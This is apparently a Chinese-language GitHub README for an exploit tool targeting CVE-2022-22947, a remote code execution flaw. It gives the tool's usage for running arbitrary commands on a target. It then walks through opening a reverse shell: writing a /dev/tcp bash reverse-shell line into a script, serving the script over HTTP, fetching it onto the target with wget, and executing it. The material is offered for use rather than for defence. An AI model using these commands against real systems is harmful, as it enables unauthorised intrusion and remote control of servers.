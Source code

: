 # 工具介绍

嘛。天天在外面跑项目，终于抽点时间研究一下这个漏洞的poc了。

**这东西吧有点问题，如果输错命令呀或者输入的命令不存在，就会返回上一个命令的结果。嘛没办法。不是exp的问题。**

就随便写了一个。辣鸡。大佬看着辣眼睛请绕过。

写这个exp的时候碰到了很多的问题把。

1. 网上的有个poc的那个是这样写。多了一个new String[]。然后发现不能执行带有空格的命令，想了好些办法，比如空格绕过$IFS呀啥的都不行。然后看到另一个poc可以。想不通在哪找了好多地方的问题。还以为是我写错了。最后仔细对比才发现。使用的地方差了一点点。

![image-20220304141150921](images/image-20220304141150921.png)

2. 这个rui的http里面的东西虽然可以瞎写好些。但是如果没写http:// 就不行。一开始我写漏了。就写了一个127.0.0.1结果失败了。

![image-20220304141538271](images/image-20220304141538271.png)

# 工具的使用

使用:

```
python CVE-2022-22947.py 目标 "执行的命令"
```

![image-20220304140157102](images/image-20220304140157102.png)

![image-20220304140213492](images/image-20220304140213492.png)


反弹直接执行反弹shell的命令好像是不行的。

我是先新建了一个shell.sh，然后在文件中写入反弹shell的命令。
```
bash -i >& /dev/tcp/ip/prot 0>&1
```
然后在shell.sh的目录下，用python开启一个http服务。
```
python3 -m http.server 8080
```
再然后用wget下载一个shell.sh。
```
python CVE-2022-22947.py 目标 "wget http://xxxxx:8080/shell.sh"
```
再再然后给一个文件的执行权限。
```
python CVE-2022-22947.py 目标 "chmod +x shell.sh"
```
最后执行shell.sh文件。
```
python CVE-2022-22947.py 目标 "bash shell.sh"
```
这样就把shell反弹出去了。
